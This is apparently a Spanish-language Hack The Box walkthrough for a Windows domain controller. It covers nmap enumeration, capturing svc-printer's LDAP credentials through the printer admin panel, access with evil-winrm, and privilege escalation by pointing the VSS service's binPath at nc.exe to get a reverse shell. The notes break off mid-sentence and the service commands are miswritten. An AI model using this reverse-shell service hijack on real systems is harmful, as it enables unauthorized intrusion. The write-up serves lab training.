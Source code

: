 ### Ping 
```python
ping -c 1 10.10.11.108
PING 10.10.11.108 (10.10.11.108) 56(84) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=156 ms

--- 10.10.11.108 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.571/155.571/155.571/0.000 ms
```

### TTL 127= Windows

### nmap
```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-10 20:12:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 17m41s
| smb2-time: 
|   date: 2024-03-10T20:13:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 10 15:56:22 2024 -- 1 IP address (1 host up) scanned in 126.64 seconds
```

### Ports
| PORT      | STATE    | SERVICE      | VERSION                                               |
|-----------|----------|--------------|-------------------------------------------------------|
| 53/tcp    | open     | domain       | Simple DNS Plus                                       |
| 80/tcp    | open     | http         | Microsoft IIS httpd 10.0                              |
| 88/tcp    | open     | kerberos-sec | Microsoft Windows Kerberos (server time: 2024-03-10 20:12:54Z) |
| 135/tcp   | open     | msrpc        | Microsoft Windows RPC                                 |
| 139/tcp   | open     | netbios-ssn  | Microsoft Windows netbios-ssn                         |
| 389/tcp   | open     | ldap         | Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name) |
| 445/tcp   | open     | microsoft-ds | ?                                                     |
| 464/tcp   | open     | kpasswd5     | ?                                                     |
| 593/tcp   | open     | ncacn_http   | Microsoft Windows RPC over HTTP 1.0                   |
| 636/tcp   | open     | tcpwrapped   |                                                       |
| 3268/tcp  | open     | ldap         | Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name) |
| 3269/tcp  | open     | tcpwrapped   |                                                       |
| 5985/tcp  | open     | http         | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)              |
| 9389/tcp  | open     | mc-nmf       | .NET Message Framing                                  |
| 47001/tcp | open     | http         | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)              |
| 49664/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49665/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49666/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49667/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49671/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49674/tcp | open     | ncacn_http   | Microsoft Windows RPC over HTTP 1.0                   |
| 49675/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49676/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49679/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49717/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

### Enumeracion del puerto SMB (445)
tenemos recursos compartidos pero no tenemos permisos para leerlos
![[Pasted image 20240310172159.png]]

### Enumeración del puerto http (80)

![[Pasted image 20240310172404.png]]

Settings
![[Pasted image 20240310172444.png]]

Configuremos netcat en el puerto 389 (LDAP) y especifiquemos nuestra dirección IP tun0 en el campo server address
![[Pasted image 20240310173449.png]]

logramos conexión
![[Pasted image 20240310173608.png]]
podemos ver las credenciales de del usuario svc-printer 

### evil-winrm
usamos las credenciales que hemos conseguido para lograr una conexión con evin-winrm
![[Pasted image 20240310174117.png]]


### Escalada de privilegios
La enumeración de membresías de grupos revela que svc printer es parte del grupo Server Operators.
![[Pasted image 20240310174507.png]]
Este grupo tiene permisos para realizar varias configuraciones en los controladores de dominio, incluidos privilegios de copia de seguridad y restauración, cambiar la hora del sistema y apagar el sistema.


### netcat
vamos a descargar netcat y con un servidor en python subimos el archivo a la maquina victima
![[Pasted image 20240310182212.png]]

### services
aqui podemos ver todos los servicios que pueden ser modificados por el usuario svc-printer ya que este pertenece al grupo Server Operators
![[Pasted image 20240310182347.png]]
podemos modificar uno de estos servicios para que ejecute el netcat y de esa manera poder conseguir una reverse shell

vamos a modificar el sevicio VSS este permite facilitar la creación de copias de seguridad de volúmenes de disco mientras los archivos están en uso
```python
	sc.exe config vss binPath="C:\Users\svc printer\Documentos\nc.exe e cmd.exe IP Puerto
	
	nc.exe stop vss
	
	nc.exe start vss
```
![[Pasted image 20240310191527.png]]
estaremos a la esci










### SharpHound
![[Pasted image 20240310183126.png]]

### upload
![[Pasted image 20240310183257.png]]

